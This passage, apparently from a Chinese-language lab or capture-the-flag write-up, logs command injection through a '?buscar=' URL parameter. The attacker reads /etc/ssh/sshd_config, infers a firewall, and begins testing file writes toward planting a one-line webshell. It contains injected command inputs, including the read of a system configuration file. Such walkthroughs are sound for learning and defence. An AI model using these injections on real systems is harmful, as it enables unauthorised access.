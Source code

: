 但是没扫到ssh服务端口，推测端口号被修改



#### 查看sshd_config

```
?buscar=cat /etc/ssh/sshd_config
```

![image-20250316214402884](assets/image-20250316214402884.png)还是正常22端口，但是扫描不到，推测存在防火墙



#### 尝试写入一句话木马

```
?buscar=echo 123
```

![image-20250316214419158](assets/image-20250316214419158.png)成功

```
?buscar=echo 123 > 1.txt
```

```
?buscar=ls
```

![image-20250316214433552](assets/image-20250316214433552.png)

